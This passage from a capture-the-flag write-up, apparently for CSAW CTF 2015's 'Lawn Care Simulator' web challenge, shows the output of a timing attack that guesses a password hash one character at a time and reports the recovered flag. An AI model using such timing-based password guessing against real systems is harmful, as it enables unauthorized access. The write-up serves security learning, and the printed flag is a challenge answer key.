 ```
sending payload with password: 667e2176663---------------------
time for 3 - 3.274707
sending payload with password: 667e2176664---------------------
time for 4 - 3.27386
sending payload with password: 667e2176665---------------------
time for 5 - 3.272986
sending payload with password: 667e2176666---------------------
time for 6 - 3.27506
sending payload with password: 667e2176667---------------------
time for 7 - 3.274545
sending payload with password: 667e2176668---------------------
time for 8 - 3.273122
sending payload with password: 667e2176669---------------------
time for 9 - 3.290462

```

After *667e217666* time of responses stopped to change, so I've decided to try only with this (I've added some random chars to get 32 characters length of the whole hash) - and it was enough:

![Grab the flag]
(https://github.com/bl4de/ctf/blob/master/CSAW_CTF_2015/Lawn_Care_Simulator_web200/lawncare03.png)


And the flag was: *gr0wth__h4ck!nG!1!1!*

(I don't know why it has worked just after 10 characters, but I suppose that there was some kind of pre-validation, which was not visible in the code and CTF organizers were able to determine valid solution a little bit earlier than after all guessed hash.)


